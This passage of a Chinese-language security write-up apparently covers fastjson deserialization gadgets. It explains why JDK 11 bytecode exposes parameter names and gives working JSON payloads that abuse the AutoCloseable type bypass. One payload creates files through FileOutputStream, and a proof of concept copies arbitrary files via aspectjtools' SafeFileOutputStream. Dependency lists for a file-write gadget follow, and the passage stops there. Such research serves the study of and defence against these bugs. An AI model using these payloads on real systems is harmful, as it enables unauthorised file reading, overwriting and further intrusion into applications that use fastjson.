 分别使用jdk11和jdk1.8执行

![image-20220623230339199](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220623230339199.png)

可以明显看出,jdk11的字节码存储了参数的名字,而jdk8只会使用var0,var1这样的符号来表示,也就是说fastjson读取不到参数名

这一点也可以在查看.calss文件的时候体现出来,jdk11的字节码中变量不是使用var0这样的东西来替代的,用得是自己本来的名字

>LocalVariableTable该属性的作用是描述帧栈中局部变量与源码中定义的变量之间的关系。可以使用 -g:none 或
>-g:vars来取消或生成这项信息，如果没有生成这项信息，那么当别人引用这个方法时，将无法获取到参数名称，取而代之的是arg0, arg1这样的占位符。start
>表示该局部变量在哪一行开始可见，length表示可见行数，Slot代表所在帧栈位置，Name是变量名称，然后是类型签名。





```json
{
"@type": "java.lang.AutoCloseable",
"@type": "java.io.FileOutputStream",
  "file": "C:/temp/test2.txt",
  "append": "false"
}
```

##### gadget1 复制文件

```xml
<dependency>
   <groupId>org.aspectj</groupId>
   <artifactId>aspectjtools</artifactId>
   <version>1.9.5</version>
</dependency>
```

这个依赖中有一个类`org.eclipse.core.internal.localstore.SafeFileOutputStream`

它的构造方法当`targetPath`不存在且`tempPath`存在时，便会进行文件复制

![image-20220623235104501](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220623235104501.png)

poc

```java
{
    "@type":"java.lang.AutoCloseable",
    "@type":"org.eclipse.core.internal.localstore.SafeFileOutputStream",
    "targetPath":"C:/temp/test2.txt",
    "tempPath":"C:/windows/setupact.log"
}
```

##### gadget2 写文件

```xml
<dependency>
   <groupId>org.aspectj</groupId>
   <artifactId>aspectjtools</artifactId>
   <version>1.9.5</version>
</dependency>
<dependency>
   <groupId>com.esotericsoftware</groupId>
   <artifactId>kryo</artifactId>
   <version>4.0.0</version>
</dependency>
<dependency>
   <groupId>com.sleepycat</groupId>
   <artifactId>je</artifactId>
   <version>18.3.12</version>
</dependency>
```
